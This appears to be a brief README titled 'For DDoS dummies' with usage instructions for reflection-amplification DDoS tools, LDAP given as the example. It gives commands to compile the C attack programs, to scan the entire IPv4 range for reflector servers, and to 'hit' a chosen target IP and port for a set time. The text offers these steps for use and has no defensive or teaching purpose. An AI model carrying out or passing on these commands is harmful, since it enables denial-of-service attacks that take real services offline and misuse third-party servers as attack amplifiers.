 # For DDoS dummies
# Enjoy
# >Commands< 
gcc -o NAME NAME.C -pthread

EX - gcc -o ldap ldap.c -pthread
# >Scanning<
./name 1.1.1.1 255.255.255.255 name.txt 2 1ms

./ldapscan 1.1.1.1 255.255.255.255 ldap.txt 2 1ms

1.1.1.1 defines starting range; 255.255.255.255 defines end scan range; the name.txt is the reflection file you are scanning

the (2) is the amount of threads this process takes to run
# >Hit<

./name IP PORT name.txt 2 -1 TIME

EX ./ldap 1.1.1.1 80 ldap.txt 2 -1 500
# :) 
